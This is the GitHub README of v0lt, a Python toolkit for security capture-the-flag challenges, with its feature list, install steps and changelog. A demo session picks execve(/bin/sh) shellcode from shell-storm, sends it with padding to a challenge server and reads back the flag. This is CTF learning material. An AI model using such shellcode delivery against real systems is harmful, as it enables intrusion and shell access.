 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

"I like it. Simple. Easy to remember."    
v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Libmagic
* Python3    
  * BeautifulSoup    
  * Requests    
  * filemagic    
  * hexdump    

####Installation:   
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

...<SNIPPED>...
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
...<SNIPPED>...

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (XOR, inverse XOR)    
    * Usual conversions (bytes, strings, hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing (Dictionnary, custom word)

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more


# Changelog

Only includes major features and changes. Bugfixes and
minor changes are omitted.

## 1.3

- Lots of fixes again
- Hexeditor (Dump/Rewrite files)

## 1.2

- Lots of documentation/bugs/framework fixes
- Added bruteforce
- Added linux utils
- Began hexeditor
- Shellhack fixes
- Alert messages

## 1.0

- Lots of documentation fixes
- Lots of bugfixes
- Added shellhack (shellcodes stuff)
- Added crypto utils
- Added network utils
- Fixed project tree
